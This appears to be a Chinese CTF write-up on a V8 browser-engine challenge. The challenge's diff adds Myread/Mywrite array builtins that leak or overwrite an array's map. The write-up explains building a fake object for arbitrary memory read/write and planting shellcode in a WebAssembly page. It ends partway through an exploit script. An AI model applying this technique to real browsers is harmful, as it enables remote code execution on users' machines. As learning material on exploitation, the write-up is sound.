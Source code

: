 ```diff
+    case Builtins::kMyread:
+      return Type::Receiver();
+    case Builtins::kMywrite:
+      return Type::Receiver();
     case Builtins::kArrayUnshift:
       return t->cache_->kPositiveSafeInteger;
 

```
这个diff文件新定义了两个数组可用的函数，一个是Myread函数，不能输入参数，返回数组的最后一个值；一个是Mywrite函数，有一个参数，将这个值写入数组的最后。这两个函数都有漏洞，分别的实际返回的是数组的map以及修改数组的map，利用这个漏洞可以做到任意地址的读写
构造一个fake_object，形态如下:
```java
var fake_array = [  
  float_array_map, // 这里填写之前oob泄露的某个float数组对象的map  
  0,  
  i2f(0x4141414141414141), <-- elements指针  
  i2f(0x400000000)  
];
```
我们很容易通过addreOf(fake_object)-0x20计算得出存储数组元素内容的内存地址，然后通过fakeObject函数就可以将这个地址强制转换成一个恶意构造的对象fake_object了。

后续如果我们访问fake_object[0]，实际上访问的就是其elements指针即0x4141414141414141+0x10指向的内存内容了，而这个指针内容是我们完全可控的，因此可以写为我们想要访问的任意内存地址。利用上述一套s操作，我们就实现了任意地址读写。这一过程中的内存布局转换如下图所示：
![[Pasted image 20250316171258.png]]
有这个漏洞，有两种利用方法，一种是使用传统的堆利用漏洞，泄漏libc地址修改free_hook，一方面我现在还没学过，另一方面这题没给libc版本，这里用另一个方法Wasm
Wasm简单来说就是让java直接执行高级语言生成的机器码的一种技术
有一个网站：[https://wasdk.github.io/WasmFiddle/](https://wasdk.github.io/WasmFiddle/)
由于安全性的考虑不，浏览器不允许通过wasm直接调用系统函数，但可以先将无害的wasm写入，然后通过上面的任意写的漏洞，将shellcode写入wasm,就可以再调用wasm时，实际调用的就是shellcode了。
exp:
```
// ××××××××1. 无符号64位整数和64位浮点数的转换代码××××××××

var buf =new ArrayBuffer(16);
var float64 = new Float64Array(buf);
var bigUint64 = new BigUint64Array(buf);

// 浮点数转换为64位无符号整数
function f2i(f)
{
    float64[0] = f;
    return bigUint64[0];
}
// 64位无符号整数转为浮点数
function i2f(i)
{
    bigUint64[0] = i;
    return float64[0];
}
// 64位无符号整数转为16进制字节串
function hex(i)
{
    return i.toString(16).padStart(16, "0");
}

// ××××××××2. addressOf和fakeObject的实现××××××××
var obj = {"a": 1};
var obj_array = [obj];
var float_array = [1.1];

var obj_array_map = obj_array.Myread();
```